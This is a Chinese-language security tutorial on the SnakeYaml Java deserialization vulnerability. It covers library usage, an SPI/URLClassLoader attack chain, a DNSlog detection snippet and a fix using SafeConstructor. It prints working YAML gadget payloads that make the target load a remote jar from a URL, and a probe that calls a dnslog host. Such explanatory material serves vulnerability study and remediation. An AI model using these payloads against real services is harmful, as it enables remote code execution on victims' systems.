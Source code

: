 SnakeYaml是java解析yaml格式的组件库，SnakeYaml反序列化漏洞不存在版本限制，前提是能控制反序列化数据流。


SnakeYaml反序列化漏洞，不同的数据类型稍有不同：
当数据为键值对时，会调用构造方法和setter方法。
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类



## **SnakeYaml使用​**
导入依赖，如果是springboot项目，自带此依赖。
```
<dependency>​
  <groupId>org.yaml</groupId>​
  <artifactId>snakeyaml</artifactId>​
  <version>1.27</version>​
</dependency>
```
```
inputStream = new FileInputStream(filepath);​
yaml = new Yaml();​
// 使用文件输入流读取YAML文件​
yamlMap = yaml.load(inputStream);
```

## **反序列化漏洞**
当数据是数组时候会调用构造方法，其中一条攻击链就是利用SPI机制来加载恶意类：
使用 !!+全类名指定反序列化的类，反序列化过程中会实例化该类。snakeyaml 将全类名解析，并将类使用forname()进行加载，然后通过反射获取构造器，调用构造方法，控制适当的类的构造方法就能进行漏洞攻击。
如
```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:7788/exp.jar"]]]]
```
探测
```
public class Snakeyaml {
    public static void main(String[] args) {
        String context = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://fnsdae.dnslog.cn\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(context);
    }
}
```
网上工具
<https://www.cnblogs.com/nice0e3/p/14514882.html>
Nacos反序列化漏洞
<https://mp.weixin.qq.com/s/SfAFMiraMKafcISo5IDEAg>

^
## **修复**
其实该漏洞涉及到了全版本，只要反序列化内容可控,那么就可以去进行反序列化攻击​
修复方案：加入new SafeConstructor()类进行过滤
```
public class main {​
    public static void main(String[] args) {​
        String context = "!!javax.script.ScriptEngineManager [\n" +​
                "  !!java.net.URLClassLoader [[\n" +​
                "    !!java.net.URL [\"http://127.0.0.1:8888/yaml-payload-master.jar\"]\n" +​
                "  ]]\n" +​
                "]";​
        Yaml yaml = new Yaml(new SafeConstructor());​
        yaml.load(context);​
    }​
}
```

